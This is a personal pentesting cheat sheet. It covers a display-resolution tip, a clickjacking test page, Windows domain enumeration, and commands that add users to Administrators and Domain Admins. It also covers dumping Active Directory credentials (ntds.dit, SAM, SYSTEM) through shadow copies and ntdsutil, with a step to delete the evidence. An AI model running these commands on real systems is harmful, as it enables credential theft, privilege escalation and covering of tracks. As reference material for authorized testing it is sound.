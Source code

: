 # Cheat Sheets
My cheatsheets

## Add new resolution

```bash
$ cvt 1920 1080 60
# 1920x1080 59.96 Hz (CVT 2.07M9) hsync: 67.16 kHz; pclk: 173.00 MHz
Modeline "1920x1080_60.00"  173.00  1920 2048 2248 2576  1080 1083 1088 1120 -hsync +vsync

$ xrandr --newmode "1920x1080_60.00"  173.00  1920 2048 2248 2576  1080 1083 1088 1120 -hsync +vsync
$ xrandr --addmode Virtual1 1920x1080_60.00
```
## Clickjacking Test
[Owasp](https://www.owasp.org/index.php/Testing_for_Clickjacking_(OTG-CLIENT-009))
```html
<html> 

   <head> 

     <title>Clickjack test page</title> 

   </head> 

   <body> 

     <p>Website is vulnerable to clickjacking!</p> 

     <iframe src="URL" width="500" height="500"></iframe> 

   </body> 

</html>
```

## Spawn shell with given user,only for network purpose
Windows
```cmd
runas /netonly /user:domain\account cmd
```

## Useful commands Windows Post Exploitation

**Get Domain Controller name**
```cmd
C:\Users\User> nltest /dclist:DOMAIN
C:\Users\User> echo %LOGONSERVER%
```

**Domain Users**
```cmd
C:\Users\User> net users /domain
```

**Domain Groups**
```cmd
C:\Users\User> net groups /domain
```

**List the users of specific group**
```cmd
C:\Users\User> net groups "Domain Admins" /domain
```

**Add new user**
```cmd
C:\Users\User> net user USER PASS /add
```

**Delete user**
```cmd
C:\Users\User> net user USER /del
```

**List Local Groups**
```cmd
C:\Users\User> net localgroups
```

**Add user to Local Admin Group**
```cmd
C:\Users\User> net localgroup administrators USER /add
```

**Add user to Domain Amdins**
```cmd
C:\Users\User> net groups "Domain Admins" USER /add
```

**Account Password Policy**
```cmd
C:\Users\User> net accounts /domain
```

## HashDump with Windows Tools

+ **Shadow Copy**

1. Check if there is any Shadow Copy
```cmd
vssadmin list shadows
```

2. Create a Shadow Copy Volume
```cmd
vssadmin create shadow /for=X:  //Where X is the HDD where is the el ntds.dit file
```

3. Copy ntds.dit, SYSYEM and SAM
```cmd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM .
```

4. Delete the evidences
```cmd
vssadmin delete shadows /for=X:
```

+ **NTDSUTIL**

```cmd
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```
